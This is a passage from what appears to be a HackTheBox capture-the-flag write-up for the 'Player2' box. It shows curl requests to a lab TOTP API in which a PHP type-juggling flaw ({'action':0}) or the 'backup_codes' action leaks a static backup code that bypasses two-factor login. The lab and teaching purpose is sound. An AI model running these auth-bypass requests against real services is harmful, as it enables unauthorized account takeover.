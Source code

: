 

Note, if I try to send a OTP in Firefox, the cookie no longer works to
get access to the API. The server must think this session is in the
state after successful creds but then set it back to invalid on any
failed OTP.

I tried adding `/action/` to the url, but that caused a 500 error. So I
tried sending `action` as a parameter name. With any other parameter, it
returns `Invalid Action`:



    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=49fej68t3k9vlr2ga16prnbsac" -d '{"aaaa":"code"}'
    {"error":"Invalid action"}



But with `action`, it returns `Missing parameters`:



    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=49fej68t3k9vlr2ga16prnbsac" -d '{"action":"code"}'
    {"error":"Missing parameters"}



It's not totally clear to me how the box author expected us to make this
next leap. I got lucky in guessing around, I tried `0` (as an integer,
not a string) and got a match:



    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=o91scokidvotca1i0tolpdmjp9" -H 'Content-Type:application/json' -d '{"action":0}'
    {"user":"0xdf","code":"91231238385454"}



This is a PHP type juggling vulnerability, and I'll look at it in
[Beyond Root](#php-type-juggling).

It also works if you happen to guess the `action`, `backup_codes` (but
given that `backup_codes` isn't in an common wordlists I know of, that'd
be a pretty un-fun guess to ask us to make):



    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=49fej68t3k9vlr2ga16prnbsac" -d '{"action":"backup_codes"}'
    {"user":"0xdf","code":"91231238385454"}



Either way, I have a backup code to bypass 2FA (it seems static).

Entering that into the form logs in to the Protobs site.

### Protobs Enumeration

#### Site
